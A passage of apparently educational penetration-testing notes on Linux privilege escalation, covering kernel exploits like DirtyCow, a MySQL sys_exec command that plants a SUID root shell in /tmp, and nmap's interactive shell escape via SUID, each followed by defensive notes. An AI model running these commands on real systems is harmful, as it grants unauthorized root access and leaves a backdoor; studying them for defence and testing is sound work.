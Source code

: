 ![[Pasted image 20250415084921.png]]
![[Pasted image 20250415085248.png]]
**Educational Notes:**

- This demonstrates why users should be cautious about downloading and executing files
- Shows the importance of endpoint protection solutions
- Highlights how process migration can be used for persistence
## Privilege Escalation Methods

### Four Key Privilege Escalation Techniques

#### 1. Kernel Exploits

```bash
# Example: DirtyCow exploit (Linux Kernel <= 3.19.0-73.8)
# 1. Identify kernel version
$ uname -a

# 2. Search for applicable exploits
$ searchsploit Linux Kernel 3.19

# 3. Download, compile and execute the exploit
# This particular exploit replaces the 'root' user with a new user by editing /etc/passwd
```

**Educational Notes:**

- Kernel exploits leverage vulnerabilities in the operating system kernel
- Keeping systems updated is critical to prevent these attacks
- Privilege separation helps contain the impact of successful exploits
#### 2. Exploiting Services Running as Root

```bash
# Example: Exploiting MySQL running as root
$ ps -aux | grep root
# Identify MySQL running as root

mysql> select sys_exec('cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh')
mysql> exit
$ /tmp/sh
# whoami
root
```

**Educational Notes:**

- Services should run with the minimum required privileges
- Database services rarely need root privileges
- Containerization and isolation help mitigate these risks
#### 3. Exploiting SUID Executables

```bash
# Find SUID executables
$ find / -perm -u=s -type f 2>/dev/null

# Example: Exploiting NMAP with SUID bit
$ nmap --interactive
nmap> !sh
```
